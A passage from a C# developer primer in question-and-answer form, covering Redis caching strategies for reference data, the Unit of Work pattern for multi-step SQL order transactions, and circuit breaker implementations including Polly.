        var key = $"usertype:{id}";
        
        // Try Redis first
        var cached = await _redis.StringGetAsync(key);
        if (cached.HasValue)
        {
            _logger.LogDebug("Cache hit for UserType {Id}", id);
            return JsonSerializer.Deserialize<UserType>(cached);
        }
        
        // Cache miss - get from SQL
        _logger.LogDebug("Cache miss for UserType {Id}", id);
        var userType = await _sql.QueryFirstOrDefaultAsync<UserType>(
            "SELECT * FROM UserTypes WHERE Id = @Id", 
            new { Id = id });
        
        if (userType != null)
        {
            // Cache for 24 hours (rarely changes)
            await _redis.StringSetAsync(
                key, 
                JsonSerializer.Serialize(userType),
                TimeSpan.FromHours(24));
        }
        
        return userType;
    }
    
    // Bulk loading for efficiency
    public async Task PreloadUserTypesAsync()
    {
        var userTypes = await _sql.QueryAsync<UserType>(
            "SELECT * FROM UserTypes WHERE IsActive = 1");
        
        var batch = _redis.CreateBatch();
        var tasks = new List<Task>();
        
        foreach (var userType in userTypes)
        {
            var key = $"usertype:{userType.Id}";
            tasks.Add(batch.StringSetAsync(
                key, 
                JsonSerializer.Serialize(userType),
                TimeSpan.FromHours(24)));
        }
        
        batch.Execute();
        await Task.WhenAll(tasks);
        
        _logger.LogInformation("Preloaded {Count} user types", userTypes.Count());
    }
}
```

#### 2. Write-Through Cache

```csharp
public class WriteThoughCacheService
{
    private readonly IDatabase _redis;
    private readonly IDbConnection _sql;
    
    public async Task<Role> CreateRoleAsync(Role role)
    {
        // Write to database first
        var id = await _sql.QuerySingleAsync<int>(
            @"INSERT INTO Roles (Name, Description) 
              VALUES (@Name, @Description);
              SELECT CAST(SCOPE_IDENTITY() as int)",
            role);
        
        role.Id = id;
        
        // Write to cache
        await _redis.StringSetAsync(
            $"role:{id}", 
            JsonSerializer.Serialize(role),
            TimeSpan.FromHours(24));
        
        // Invalidate related caches
        await _redis.KeyDeleteAsync("roles:all");
        
        return role;
    }
    
    public async Task InvalidateRoleCacheAsync(int roleId)
    {
        var tasks = new[]
        {
            _redis.KeyDeleteAsync($"role:{roleId}"),
            _redis.KeyDeleteAsync("roles:all"),
            _redis.KeyDeleteAsync($"role:permissions:{roleId}")
        };
        
        await Task.WhenAll(tasks);
    }
}
```

### Multi-Layer Caching

```csharp
public class MultiLayerCacheService
{
    private readonly IMemoryCache _l1Cache; // In-process
    private readonly IDatabase _l2Cache;    // Redis
    private readonly IDbConnection _sql;    // SQL Server
    
    public async Task<T> GetAsync<T>(string key, Func<Task<T>> factory, CacheOptions options)
    {
        // L1: Memory Cache (microseconds)
        if (_l1Cache.TryGetValue(key, out T cached))
        {
            return cached;
        }
        
        // L2: Redis (sub-millisecond to few milliseconds)
        var redisValue = await _l2Cache.StringGetAsync(key);
        if (redisValue.HasValue)
        {
            var value = JsonSerializer.Deserialize<T>(redisValue);
            
            // Populate L1
            _l1Cache.Set(key, value, options.L1Duration);
            
            return value;
        }
        
        // L3: Database (milliseconds to seconds)
        var dbValue = await factory();
        
        if (dbValue != null)
        {
            // Populate both caches
            await _l2Cache.StringSetAsync(
                key, 
                JsonSerializer.Serialize(dbValue), 
                options.L2Duration);
            
            _l1Cache.Set(key, dbValue, options.L1Duration);
        }
        
        return dbValue;
    }
}

public class CacheOptions
{
    public TimeSpan L1Duration { get; set; } = TimeSpan.FromMinutes(5);
    public TimeSpan L2Duration { get; set; } = TimeSpan.FromHours(1);
}
```

### Performance Comparison Table

| Scenario | SQL Server | Redis | Improvement | When to Use |
|----------|------------|-------|-------------|-------------|
| **Single row by ID** | 2-5ms | 0.1-0.5ms | 10-50x | Always cache |
| **Small lookup table (<100 rows)** | 5-10ms | 0.5-1ms | 10-20x | Always cache |
| **Medium reference data (<10K rows)** | 20-50ms | 1-5ms | 10-40x | Usually cache |
| **Large dataset (>100K rows)** | 100ms-1s | 10-50ms | 10-20x | Selective cache |
| **Complex joins** | 10-100ms | N/A | N/A | Use SQL |
| **Full-text search** | 50-500ms | N/A | N/A | Use SQL/Elasticsearch |
| **Aggregations** | 50ms-5s | Varies | Depends | Pre-calculate |

### When NOT to Use Redis for Reference Data

```csharp
// 1. Large objects that consume too much memory
public class BadRedisUsage
{
    // ❌ Bad: Storing large blobs
    public async Task CacheLargeFile(byte[] fileData)
    {
        // 10MB file × 1000 files = 10GB Redis memory!
        await _redis.StringSetAsync("file:large", fileData);
    }
    
    // ✅ Good: Store reference, fetch from blob storage
    public async Task CacheFileReference(FileMetadata metadata)
    {
        await _redis.StringSetAsync($"file:{metadata.Id}", 
            JsonSerializer.Serialize(metadata));
    }
}

// 2. Frequently changing data
public class FrequentlyChangingData
{
    // ❌ Bad: Cache invalidation nightmare
    public async Task CacheStockPrice(string symbol, decimal price)
    {
        await _redis.StringSetAsync($"stock:{symbol}", price);
        // Changes every second - cache invalidation overhead
    }
    
    // ✅ Good: Use Redis for real-time, not cache
    public async Task PublishStockPrice(string symbol, decimal price)
    {
        await _redis.PublishAsync($"stock:{symbol}", price);
    }
}

// 3. Complex queries
public class ComplexQueryData
{
    // ❌ Bad: Redis can't do this efficiently
    public async Task<List<User>> GetUsersByComplexCriteria(
        string department, 
        DateTime hiredAfter, 
        decimal salaryRange)
    {
        // Would need to load all users and filter in memory
        // Or maintain multiple sorted sets
    }
    
    // ✅ Good: Use SQL for complex queries
    public async Task<List<User>> GetUsersByCriteria(FilterCriteria criteria)
    {
        var sql = BuildDynamicQuery(criteria);
        return await _sql.QueryAsync<User>(sql, criteria);
    }
}
```

### Optimization Strategies

```csharp
public class OptimizedReferenceDataService
{
    // 1. Batch loading
    public async Task<Dictionary<int, UserType>> GetUserTypesBatchAsync(int[] ids)
    {
        var keys = ids.Select(id => (RedisKey)$"usertype:{id}").ToArray();
        var values = await _redis.StringGetAsync(keys);
        
        var result = new Dictionary<int, UserType>();
        var missingIds = new List<int>();
        
        for (int i = 0; i < ids.Length; i++)
        {
            if (values[i].HasValue)
            {
                result[ids[i]] = JsonSerializer.Deserialize<UserType>(values[i]);
            }
            else
            {
                missingIds.Add(ids[i]);
            }
        }
        
        // Batch load missing from SQL
        if (missingIds.Any())
        {
            var missing = await _sql.QueryAsync<UserType>(
                "SELECT * FROM UserTypes WHERE Id IN @Ids",
                new { Ids = missingIds });
            
            // Cache and return
            var batch = _redis.CreateBatch();
            foreach (var userType in missing)
            {
                result[userType.Id] = userType;
                batch.StringSetAsync(
                    $"usertype:{userType.Id}",
                    JsonSerializer.Serialize(userType),
                    TimeSpan.FromHours(24));
            }
            batch.Execute();
        }
        
        return result;
    }
    
    // 2. Preloading on startup
    public async Task PreloadCriticalDataAsync()
    {
        var tasks = new[]
        {
            PreloadAsync<UserType>("SELECT * FROM UserTypes", "usertype"),
            PreloadAsync<Role>("SELECT * FROM Roles", "role"),
            PreloadAsync<Permission>("SELECT * FROM Permissions", "permission"),
            PreloadAsync<Country>("SELECT * FROM Countries", "country")
        };
        
        await Task.WhenAll(tasks);
    }
    
    private async Task PreloadAsync<T>(string query, string keyPrefix) where T : IIdentifiable
    {
        var items = await _sql.QueryAsync<T>(query);
        var pipeline = _redis.CreateBatch();
        
        foreach (var item in items)
        {
            pipeline.StringSetAsync(
                $"{keyPrefix}:{item.Id}",
                JsonSerializer.Serialize(item),
                TimeSpan.FromHours(24));
        }
        
        pipeline.Execute();
    }
}
```

### Best Practices Summary

```yaml
Use Redis for Reference Data When:
  - Data changes infrequently (hours/days)
  - Small to medium size (<1MB per item)
  - High read frequency
  - Simple key-based lookups
  - Need sub-millisecond response
  - Can tolerate eventual consistency

Keep in SQL Server When:
  - Complex queries with joins
  - Large datasets that don't fit in memory
  - Need ACID transactions
  - Reporting and analytics
  - Full-text search requirements
  - Audit trail requirements

Performance Expectations:
  - Simple lookups: 10-50x faster
  - Batch operations: 20-100x faster
  - With network latency: 5-20x faster
  - Memory cache: 1000x faster than SQL

Memory Considerations:
  - Redis uses ~10x more memory than raw data
  - Plan for 2-3x expected data size
  - Monitor memory usage closely
  - Set appropriate eviction policies
  - Use TTL for all cached data
```

The key insight: **For rarely-changing reference data, Redis typically provides 10-50x performance improvement over SQL Server for simple lookups, but the real benefit comes from reducing database load and improving application scalability.**

## 48. Write a comprehensive primer on UnitOfWork patterns (and SQLUnitOfWork) especially in multi-step sql transactions like store customer, then order, then items and update the same.

### Unit of Work Pattern Overview

**Quick Answer**: The Unit of Work pattern maintains a list of objects affected by a business transaction and coordinates writing out changes as a single atomic operation. It's essential for managing complex multi-step transactions like creating a customer, order, and order items while ensuring consistency.

### Core Concepts

```csharp
// Basic Unit of Work interface
public interface IUnitOfWork : IDisposable
{
    // Repository access
    IRepository<Customer> Customers { get; }
    IRepository<Order> Orders { get; }
    IRepository<OrderItem> OrderItems { get; }
    IRepository<Product> Products { get; }
    
    // Transaction control
    Task<int> SaveChangesAsync();
    Task BeginTransactionAsync();
    Task CommitTransactionAsync();
    Task RollbackTransactionAsync();
}

// SQL-specific implementation
public class SqlUnitOfWork : IUnitOfWork
{
    private readonly SqlConnection _connection;
    private SqlTransaction _transaction;
    private bool _disposed;
    
    // Lazy-loaded repositories
    private IRepository<Customer> _customers;
    private IRepository<Order> _orders;
    private IRepository<OrderItem> _orderItems;
    private IRepository<Product> _products;
    
    public SqlUnitOfWork(string connectionString)
    {
        _connection = new SqlConnection(connectionString);
        _connection.Open();
    }
    
    public IRepository<Customer> Customers => 
        _customers ??= new SqlRepository<Customer>(_connection, _transaction);
    
    public IRepository<Order> Orders => 
        _orders ??= new SqlRepository<Order>(_connection, _transaction);
    
    public IRepository<OrderItem> OrderItems => 
        _orderItems ??= new SqlRepository<OrderItem>(_connection, _transaction);
    
    public IRepository<Product> Products => 
        _products ??= new SqlRepository<Product>(_connection, _transaction);
    
    public async Task BeginTransactionAsync()
    {
        _transaction = _connection.BeginTransaction();
        UpdateRepositoryTransactions();
    }
    
    public async Task CommitTransactionAsync()
    {
        try
        {
            await _transaction.CommitAsync();
        }
        finally
        {
            _transaction?.Dispose();
            _transaction = null;
        }
    }
    
    public async Task RollbackTransactionAsync()
    {
        try
        {
            await _transaction?.RollbackAsync();
        }
        finally
        {
            _transaction?.Dispose();
            _transaction = null;
        }
    }
    
    private void UpdateRepositoryTransactions()
    {
        (_customers as SqlRepository<Customer>)?.SetTransaction(_transaction);
        (_orders as SqlRepository<Order>)?.SetTransaction(_transaction);
        (_orderItems as SqlRepository<OrderItem>)?.SetTransaction(_transaction);
        (_products as SqlRepository<Product>)?.SetTransaction(_transaction);
    }
}
```

### Multi-Step Transaction Example

```csharp
public class OrderService
{
    private readonly IUnitOfWork _unitOfWork;
    
    public async Task<OrderResult> CreateOrderAsync(OrderRequest request)
    {
        await _unitOfWork.BeginTransactionAsync();
        
        try
        {
            // Step 1: Create or update customer
            var customer = await _unitOfWork.Customers
                .FirstOrDefaultAsync(c => c.Email == request.CustomerEmail);
            
            if (customer == null)
            {
                customer = new Customer
                {
                    Email = request.CustomerEmail,
                    Name = request.CustomerName,
                    Phone = request.CustomerPhone,
                    CreatedAt = DateTime.UtcNow
                };
                await _unitOfWork.Customers.AddAsync(customer);
                await _unitOfWork.SaveChangesAsync(); // Get customer ID
            }
            else
            {
                // Update existing customer
                customer.Name = request.CustomerName;
                customer.Phone = request.CustomerPhone;
                customer.UpdatedAt = DateTime.UtcNow;
                await _unitOfWork.Customers.UpdateAsync(customer);
            }
            
            // Step 2: Create order
            var order = new Order
            {
                CustomerId = customer.Id,
                OrderDate = DateTime.UtcNow,
                Status = OrderStatus.Pending,
                TotalAmount = 0,
                ShippingAddress = request.ShippingAddress
            };
            await _unitOfWork.Orders.AddAsync(order);
            await _unitOfWork.SaveChangesAsync(); // Get order ID
            
            // Step 3: Add order items and calculate total
            decimal totalAmount = 0;
            
            foreach (var item in request.Items)
            {
                // Check product availability
                var product = await _unitOfWork.Products.GetByIdAsync(item.ProductId);
                if (product == null)
                {
                    throw new ProductNotFoundException(item.ProductId);
                }
                
                if (product.StockQuantity < item.Quantity)
                {
                    throw new InsufficientStockException(product.Name, item.Quantity);
                }
                
                // Create order item
                var orderItem = new OrderItem
                {
                    OrderId = order.Id,
                    ProductId = product.Id,
                    Quantity = item.Quantity,
                    UnitPrice = product.Price,
                    TotalPrice = product.Price * item.Quantity
                };
                await _unitOfWork.OrderItems.AddAsync(orderItem);
                
                // Update product stock
                product.StockQuantity -= item.Quantity;
                await _unitOfWork.Products.UpdateAsync(product);
                
                totalAmount += orderItem.TotalPrice;
            }
            
            // Step 4: Update order with total amount
            order.TotalAmount = totalAmount;
            await _unitOfWork.Orders.UpdateAsync(order);
            
            // Step 5: Update customer statistics
            customer.TotalOrders += 1;
            customer.TotalSpent += totalAmount;
            customer.LastOrderDate = DateTime.UtcNow;
            await _unitOfWork.Customers.UpdateAsync(customer);
            
            // Commit all changes atomically
            await _unitOfWork.SaveChangesAsync();
            await _unitOfWork.CommitTransactionAsync();
            
            return new OrderResult
            {
                Success = true,
                OrderId = order.Id,
                OrderNumber = order.OrderNumber,
                TotalAmount = totalAmount
            };
        }
        catch (Exception ex)
        {
            // Rollback on any error
            await _unitOfWork.RollbackTransactionAsync();
            
            return new OrderResult
            {
                Success = false,
                ErrorMessage = ex.Message
            };
        }
    }
}
```

### Advanced Unit of Work with Change Tracking

```csharp
public class ChangeTrackingUnitOfWork : IUnitOfWork
{
    private readonly Dictionary<object, EntityState> _trackedEntities = new();
    private readonly SqlConnection _connection;
    private SqlTransaction _transaction;
    
    public async Task<int> SaveChangesAsync()
    {
        var affectedRows = 0;
        
        // Process deletes first (referential integrity)
        foreach (var entry in _trackedEntities.Where(e => e.Value == EntityState.Deleted))
        {
            affectedRows += await DeleteEntityAsync(entry.Key);
        }
        
        // Process updates
        foreach (var entry in _trackedEntities.Where(e => e.Value == EntityState.Modified))
        {
            affectedRows += await UpdateEntityAsync(entry.Key);
        }
        
        // Process inserts last
        foreach (var entry in _trackedEntities.Where(e => e.Value == EntityState.Added))
        {
            affectedRows += await InsertEntityAsync(entry.Key);
        }
        
        // Clear tracking after save
        _trackedEntities.Clear();
        
        return affectedRows;
    }
    
    public void MarkAsAdded(object entity)
    {
        _trackedEntities[entity] = EntityState.Added;
    }
    
    public void MarkAsModified(object entity)
    {
        if (!_trackedEntities.ContainsKey(entity))
        {
            _trackedEntities[entity] = EntityState.Modified;
        }
    }
    
    public void MarkAsDeleted(object entity)
    {
        _trackedEntities[entity] = EntityState.Deleted;
    }
    
    private async Task<int> InsertEntityAsync(object entity)
    {
        var type = entity.GetType();
        var tableName = GetTableName(type);
        var properties = GetInsertableProperties(type);
        
        var columnNames = string.Join(", ", properties.Select(p => p.Name));
        var parameterNames = string.Join(", ", properties.Select(p => $"@{p.Name}"));
        
        var sql = $"INSERT INTO {tableName} ({columnNames}) VALUES ({parameterNames})";
        
        return await _connection.ExecuteAsync(sql, entity, _transaction);
    }
}
```

### Unit of Work with Event Sourcing

```csharp
public class EventSourcingUnitOfWork : IUnitOfWork
{
    private readonly List<DomainEvent> _events = new();
    private readonly SqlConnection _connection;
    private SqlTransaction _transaction;
    
    public void AddEvent(DomainEvent domainEvent)
    {
        _events.Add(domainEvent);
    }
    
    public async Task<int> SaveChangesAsync()
    {
        var affectedRows = 0;
        
        // Save all events
        foreach (var @event in _events)
        {
            await SaveEventAsync(@event);
            affectedRows++;
        }
        
        // Apply projections
        foreach (var @event in _events)
        {
            await ApplyProjectionsAsync(@event);
        }
        
        // Publish events after transaction commits
        if (_transaction == null)
        {
            await PublishEventsAsync();
        }
        
        return affectedRows;
    }
    
    private async Task SaveEventAsync(DomainEvent @event)
    {
        const string sql = @"
            INSERT INTO Events (
                AggregateId, 
                EventType, 
                EventData, 
                Timestamp, 
                UserId, 
                Version
            ) VALUES (
                @AggregateId, 
                @EventType, 
                @EventData, 
                @Timestamp, 
                @UserId, 
                @Version
            )";
        
        await _connection.ExecuteAsync(sql, new
        {
            @event.AggregateId,
            EventType = @event.GetType().Name,
            EventData = JsonSerializer.Serialize(@event),
            @event.Timestamp,
            @event.UserId,
            @event.Version
        }, _transaction);
    }
}
```

### Repository Pattern with Unit of Work

```csharp
public interface IRepository<T> where T : class
{
    Task<T> GetByIdAsync(int id);
    Task<IEnumerable<T>> GetAllAsync();
    Task<IEnumerable<T>> FindAsync(Expression<Func<T, bool>> predicate);
    Task AddAsync(T entity);
    Task UpdateAsync(T entity);
    Task DeleteAsync(T entity);
}

public class SqlRepository<T> : IRepository<T> where T : class
{
    private readonly SqlConnection _connection;
    private SqlTransaction _transaction;
    private readonly string _tableName;
    
    public SqlRepository(SqlConnection connection, SqlTransaction transaction)
    {
        _connection = connection;
        _transaction = transaction;
        _tableName = GetTableName();
    }
    
    public void SetTransaction(SqlTransaction transaction)
    {
        _transaction = transaction;
    }
    
    public async Task<T> GetByIdAsync(int id)
    {
        var sql = $"SELECT * FROM {_tableName} WHERE Id = @id";
        return await _connection.QuerySingleOrDefaultAsync<T>(
            sql, 
            new { id }, 
            _transaction
        );
    }
    
    public async Task AddAsync(T entity)
    {
        var columns = GetColumns(exclude: "Id");
        var columnNames = string.Join(", ", columns);
        var parameterNames = string.Join(", ", columns.Select(c => $"@{c}"));
        
        var sql = $@"
            INSERT INTO {_tableName} ({columnNames}) 
            VALUES ({parameterNames});
            SELECT CAST(SCOPE_IDENTITY() as int);";
        
        var id = await _connection.QuerySingleAsync<int>(
            sql, 
            entity, 
            _transaction
        );
        
        // Set ID on entity if it has Id property
        var idProperty = typeof(T).GetProperty("Id");
        idProperty?.SetValue(entity, id);
    }
}
```

### Handling Complex Scenarios

```csharp
public class AdvancedOrderService
{
    private readonly IUnitOfWork _unitOfWork;
    
    public async Task<OrderResult> ProcessComplexOrderAsync(ComplexOrderRequest request)
    {
        await _unitOfWork.BeginTransactionAsync();
        
        try
        {
            // Step 1: Handle customer with address
            var customer = await ProcessCustomerAsync(request);
            
            // Step 2: Apply discounts and promotions
            var discounts = await ApplyDiscountsAsync(customer, request);
            
            // Step 3: Create order with payment
            var order = await CreateOrderWithPaymentAsync(customer, request, discounts);
            
            // Step 4: Process inventory and shipping
            await ProcessInventoryAndShippingAsync(order, request);
            
            // Step 5: Generate invoice and notifications
            await GenerateInvoiceAndNotificationsAsync(order);
            
            // Step 6: Update loyalty points
            await UpdateLoyaltyPointsAsync(customer, order);
            
            // Commit all changes
            await _unitOfWork.SaveChangesAsync();
            await _unitOfWork.CommitTransactionAsync();
            
            return new OrderResult { Success = true, OrderId = order.Id };
        }
        catch (Exception ex)
        {
            await _unitOfWork.RollbackTransactionAsync();
            
            // Compensating actions if needed
            await HandleRollbackCompensationAsync(request, ex);
            
            throw;
        }
    }
    
    private async Task<Customer> ProcessCustomerAsync(ComplexOrderRequest request)
    {
        var customer = await _unitOfWork.Customers
            .FirstOrDefaultAsync(c => c.Email == request.CustomerEmail);
        
        if (customer == null)
        {
            // Create customer with address
            customer = new Customer { Email = request.CustomerEmail };
            await _unitOfWork.Customers.AddAsync(customer);
            await _unitOfWork.SaveChangesAsync(); // Get ID
            
            var address = new CustomerAddress
            {
                CustomerId = customer.Id,
                AddressLine1 = request.AddressLine1,
                City = request.City,
                PostalCode = request.PostalCode
            };
            await _unitOfWork.CustomerAddresses.AddAsync(address);
        }
        
        return customer;
    }
}
```

### Best Practices

```yaml
Unit of Work Best Practices:
  1. Transaction Scope:
     - One UoW per business transaction
     - Keep transactions short
     - Avoid nested transactions
  
  2. Error Handling:
     - Always rollback on errors
     - Implement retry logic for deadlocks
     - Log transaction boundaries
  
  3. Performance:
     - Batch operations when possible
     - Use appropriate isolation levels
     - Monitor lock contention
  
  4. Testing:
     - Mock UoW for unit tests
     - Use real DB for integration tests
     - Test rollback scenarios
```

**Key Insight**: The Unit of Work pattern ensures data consistency across complex multi-step operations by treating them as a single atomic transaction, making it essential for maintaining data integrity in business-critical operations like order processing.

## 49. Explain how a circuit breaker throws a circuit? How does it know when the circuit is broken? why is it important?

### Circuit Breaker Pattern Overview

**Quick Answer**: The Circuit Breaker pattern prevents cascading failures by monitoring for failures and temporarily blocking requests to a failing service. It "throws" (opens) when failure thresholds are exceeded, knows the circuit is "broken" through configurable failure detection rules, and is important for building resilient microservices architectures.

### How Circuit Breaker Works

```csharp
public class CircuitBreaker
{
    private readonly int _failureThreshold;
    private readonly TimeSpan _timeout;
    private readonly TimeSpan _resetTimeout;
    
    private int _failureCount;
    private DateTime _lastFailureTime;
    private CircuitState _state = CircuitState.Closed;
    
    public CircuitBreaker(int failureThreshold = 5, int timeoutMs = 60000, int resetTimeoutMs = 30000)
    {
        _failureThreshold = failureThreshold;
        _timeout = TimeSpan.FromMilliseconds(timeoutMs);
        _resetTimeout = TimeSpan.FromMilliseconds(resetTimeoutMs);
    }
    
    public async Task<T> ExecuteAsync<T>(Func<Task<T>> operation)
    {
        if (_state == CircuitState.Open)
        {
            // Check if we should try to close the circuit
            if (DateTime.UtcNow - _lastFailureTime > _resetTimeout)
            {
                _state = CircuitState.HalfOpen;
            }
            else
            {
                throw new CircuitBreakerOpenException(
                    $"Circuit breaker is open. Retry after {_lastFailureTime.Add(_resetTimeout)}");
            }
        }
        
        try
        {
            var result = await operation();
            OnSuccess();
            return result;
        }
        catch (Exception ex)
        {
            OnFailure(ex);
            throw;
        }
    }
    
    private void OnSuccess()
    {
        _failureCount = 0;
        _state = CircuitState.Closed;
    }
    
    private void OnFailure(Exception ex)
    {
        _lastFailureTime = DateTime.UtcNow;
        _failureCount++;
        
        if (_failureCount >= _failureThreshold)
        {
            _state = CircuitState.Open;
            OnCircuitOpen();
        }
    }
    
    private void OnCircuitOpen()
    {
        // Log, send alerts, metrics
        Console.WriteLine($"Circuit breaker opened at {DateTime.UtcNow}");
    }
}

public enum CircuitState
{
    Closed,    // Normal operation
    Open,      // Failing, reject requests
    HalfOpen   // Testing if service recovered
}
```

### Circuit Breaker States Explained

```yaml
Circuit Breaker States:

1. Closed (Normal Operation):
   - Requests pass through normally
   - Failures are counted
   - Success resets failure count
   
2. Open (Circuit Broken):
   - Requests fail immediately
   - No calls to failing service
   - Timer starts for reset timeout
   
3. Half-Open (Testing Recovery):
   - Limited requests allowed through
   - Success → Closed state
   - Failure → Open state

State Transitions:
  Closed → Open: When failure threshold exceeded
  Open → Half-Open: After reset timeout expires
  Half-Open → Closed: On successful request
  Half-Open → Open: On failed request
```

### Advanced Circuit Breaker Implementation

```csharp
public interface ICircuitBreaker
{
    Task<T> ExecuteAsync<T>(Func<Task<T>> operation, string operationKey);
    CircuitState GetState(string operationKey);
    void Reset(string operationKey);
}

public class AdvancedCircuitBreaker : ICircuitBreaker
{
    private readonly ConcurrentDictionary<string, CircuitBreakerState> _circuits = new();
    private readonly CircuitBreakerOptions _options;
    
    public AdvancedCircuitBreaker(CircuitBreakerOptions options)
    {
        _options = options;
    }
    
    public async Task<T> ExecuteAsync<T>(Func<Task<T>> operation, string operationKey)
    {
        var state = _circuits.GetOrAdd(operationKey, _ => new CircuitBreakerState(_options));
        
        // Check circuit state
        if (!state.IsClosed)
        {
            if (state.IsOpen)
            {
                if (state.ShouldAttemptReset)
                {
                    state.MoveToHalfOpen();
                }
                else
                {
                    throw new CircuitBreakerOpenException(
                        $"Circuit breaker for '{operationKey}' is open");
                }
            }
        }
        
        // Execute operation with timeout
        using var cts = new CancellationTokenSource(_options.OperationTimeout);
        
        try
        {
            var result = await operation().WaitAsync(cts.Token);
            state.RecordSuccess();
            return result;
        }
        catch (OperationCanceledException) when (cts.Token.IsCancellationRequested)
        {
            state.RecordFailure(new TimeoutException("Operation timed out"));
            throw;
        }
        catch (Exception ex)
        {
            if (ShouldHandleException(ex))
            {
                state.RecordFailure(ex);
            }
            throw;
        }
    }
    
    private bool ShouldHandleException(Exception ex)
    {
        // Don't count client errors as circuit failures
        if (ex is HttpRequestException httpEx)
        {
            if (httpEx.StatusCode >= HttpStatusCode.BadRequest && 
                httpEx.StatusCode < HttpStatusCode.InternalServerError)
            {
                return false;
            }
        }
        
        // Count these as failures
        return ex is TaskCanceledException ||
               ex is TimeoutException ||
               ex is HttpRequestException ||
               ex is SocketException;
    }
}

public class CircuitBreakerState
{
    private readonly CircuitBreakerOptions _options;
    private readonly object _lock = new();
    private CircuitState _state = CircuitState.Closed;
    private int _failureCount;
    private DateTime _lastFailureTime;
    private readonly Queue<DateTime> _failureTimestamps = new();
    
    public bool IsClosed => _state == CircuitState.Closed;
    public bool IsOpen => _state == CircuitState.Open;
    public bool IsHalfOpen => _state == CircuitState.HalfOpen;
    
    public bool ShouldAttemptReset
    {
        get
        {
            lock (_lock)
            {
                return _state == CircuitState.Open && 
                       DateTime.UtcNow - _lastFailureTime > _options.ResetTimeout;
            }
        }
    }
    
    public void RecordSuccess()
    {
        lock (_lock)
        {
            _failureCount = 0;
            _failureTimestamps.Clear();
            
            if (_state == CircuitState.HalfOpen)
            {
                _state = CircuitState.Closed;
                OnCircuitClosed();
            }
        }
    }
    
    public void RecordFailure(Exception exception)
    {
        lock (_lock)
        {
            _lastFailureTime = DateTime.UtcNow;
            _failureTimestamps.Enqueue(_lastFailureTime);
            
            // Remove old timestamps outside the window
            var cutoff = DateTime.UtcNow - _options.FailureWindow;
            while (_failureTimestamps.Count > 0 && _failureTimestamps.Peek() < cutoff)
            {
                _failureTimestamps.Dequeue();
            }
            
            _failureCount = _failureTimestamps.Count;
            
            // Check if we should open the circuit
            if (_failureCount >= _options.FailureThreshold)
            {
                if (_state != CircuitState.Open)
                {
                    _state = CircuitState.Open;
                    OnCircuitOpened(exception);
                }
            }
        }
    }
    
    public void MoveToHalfOpen()
    {
        lock (_lock)
        {
            if (_state == CircuitState.Open)
            {
                _state = CircuitState.HalfOpen;
                OnCircuitHalfOpen();
            }
        }
    }
}
```

### Polly Integration Example

```csharp
// Using Polly library for circuit breaker
public class PollyCircuitBreakerExample
{
    private readonly IAsyncPolicy<HttpResponseMessage> _circuitBreakerPolicy;
    
    public PollyCircuitBreakerExample()
    {
        _circuitBreakerPolicy = Policy
            .HandleResult<HttpResponseMessage>(r => !r.IsSuccessStatusCode)
            .OrResult(r => r.StatusCode >= HttpStatusCode.InternalServerError)
            .Or<HttpRequestException>()
            .Or<TaskCanceledException>()
            .CircuitBreakerAsync(
                handledEventsAllowedBeforeBreaking: 5,
                durationOfBreak: TimeSpan.FromSeconds(30),
                onBreak: (result, duration) =>
                {
                    var reason = result.Result?.StatusCode.ToString() ?? 
                                result.Exception?.Message ?? "Unknown";
                    Console.WriteLine($"Circuit breaker opened for {duration}. Reason: {reason}");
                },
                onReset: () => Console.WriteLine("Circuit breaker reset"),
                onHalfOpen: () => Console.WriteLine("Circuit breaker is half-open")
            );
    }
    
    public async Task<T> CallServiceAsync<T>(string endpoint)
    {
        var response = await _circuitBreakerPolicy.ExecuteAsync(async () =>
        {
            using var client = new HttpClient();
            return await client.GetAsync(endpoint);
        });
        
        response.EnsureSuccessStatusCode();
        var content = await response.Content.ReadAsStringAsync();
        return JsonSerializer.Deserialize<T>(content);
    }
}

// Advanced Polly configuration with multiple policies
public class ResilientHttpClient
{
    private readonly HttpClient _httpClient;
    private readonly IAsyncPolicy<HttpResponseMessage> _resilientPolicy;
    
    public ResilientHttpClient(HttpClient httpClient)
    {
        _httpClient = httpClient;
        
        // Combine multiple policies
        _resilientPolicy = Policy.WrapAsync(
            // Circuit breaker (outermost)
            Policy.HandleResult<HttpResponseMessage>(r => !r.IsSuccessStatusCode)
                .CircuitBreakerAsync(5, TimeSpan.FromSeconds(30)),
            
            // Retry with exponential backoff
            Policy.HandleResult<HttpResponseMessage>(r => r.StatusCode >= HttpStatusCode.InternalServerError)
                .WaitAndRetryAsync(
                    3,
                    retryAttempt => TimeSpan.FromSeconds(Math.Pow(2, retryAttempt)),
                    onRetry: (outcome, timespan, retryCount, context) =>
                    {
                        Console.WriteLine($"Retry {retryCount} after {timespan}");
                    }),
            
            // Timeout per try
            Policy.TimeoutAsync<HttpResponseMessage>(10)
        );
    }
    
    public async Task<T> GetAsync<T>(string path)
    {
        var response = await _resilientPolicy.ExecuteAsync(
            async () => await _httpClient.GetAsync(path)
        );
        
        response.EnsureSuccessStatusCode();
        var json = await response.Content.ReadAsStringAsync();
        return JsonSerializer.Deserialize<T>(json);
    }
}
```

### Failure Detection Strategies

```csharp
public interface IFailureDetector
{
    bool IsFailure(Exception exception);
    bool IsFailure(HttpResponseMessage response);
}

public class SmartFailureDetector : IFailureDetector
{
    private readonly HashSet<HttpStatusCode> _failureStatusCodes = new()
    {
        HttpStatusCode.InternalServerError,
        HttpStatusCode.BadGateway,
        HttpStatusCode.ServiceUnavailable,
        HttpStatusCode.GatewayTimeout,
        HttpStatusCode.InsufficientStorage,
        HttpStatusCode.RequestTimeout
    };
    
    public bool IsFailure(Exception exception)
    {
        return exception switch
        {
            // Network failures
            SocketException _ => true,
            IOException _ => true,
            
            // Timeout failures
            TimeoutException _ => true,
            TaskCanceledException tce when tce.InnerException is TimeoutException => true,
            
            // HTTP failures
            HttpRequestException hre when hre.StatusCode.HasValue => 
                IsFailure(hre.StatusCode.Value),
            
            // Don't count these as circuit failures
            ArgumentException _ => false,
            InvalidOperationException _ => false,
            UnauthorizedAccessException _ => false,
            
            // Default
            _ => true
        };
    }
    
    public bool IsFailure(HttpResponseMessage response)
    {
        // Server errors are failures
        if (_failureStatusCodes.Contains(response.StatusCode))
            return true;
        
        // Rate limiting might be temporary
        if (response.StatusCode == HttpStatusCode.TooManyRequests)
        {
            // Check Retry-After header
            if (response.Headers.RetryAfter != null)
            {
                var retryAfter = response.Headers.RetryAfter.Delta ?? 
                                TimeSpan.FromSeconds(60);
                return retryAfter > TimeSpan.FromMinutes(5); // Long wait = failure
            }
            return true;
        }
        
        // Client errors are not circuit failures
        return false;
    }
    
    private bool IsFailure(HttpStatusCode statusCode)
    {
